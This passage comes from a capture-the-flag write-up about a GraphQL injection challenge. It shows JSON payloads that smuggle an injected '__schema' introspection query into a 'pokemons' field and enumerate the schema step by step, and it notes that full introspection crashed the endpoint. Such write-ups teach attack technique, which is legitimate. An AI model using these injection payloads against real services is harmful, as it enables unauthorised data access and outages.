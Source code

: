 But before we do that, let's confirm introspection is enabled in this challenge. This is because it's suggested that in the production environment, introspection should be disabled. To test this, we can probe for introspection with the following payload:

```json
{
  "pokemons": [
    "anything\"){id},injected_query:__schema{queryType{name}}}#"
  ],
  "compares": []
}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CUHK-CTF-2024/images/Pasted%20image%2020241015125622.png)

As we can see, it returned the query type's name `Query`, which indicates that **introspection is enabled**.

After confirming introspection is enabled, we can enumerate the entire GraphQL schema by running a **full introspection** query.

In this case, however, **the schema is so big** that if we try to run a full introspection query, **we'll bring the API endpoint down**. This is possibly due to out-of-memory caused by the insanely large schema.

> Note: During the CTF, I *accidentally* kept bringing the API endpoint down.

That being said, we should **enumerate the schema step by step** instead of just dumping the entire schema.

**Schema types**:
```json
{
  "pokemons": [
    "anything\"){id},injected_query:__schema{types{name}}}#"
  ],
  "compares": []
}
```

**Response:**
```json
{
  "data": {
    [...]
    "injected_query": {
      "types": [
        {
          "name": "Pokemon"
        },
        [...]
        {
            "name":"Digimon0x0000298c"
        },
        [...]
        {
            "name":"Query"
        },
        [...]
      ]
    }
  }
}
```
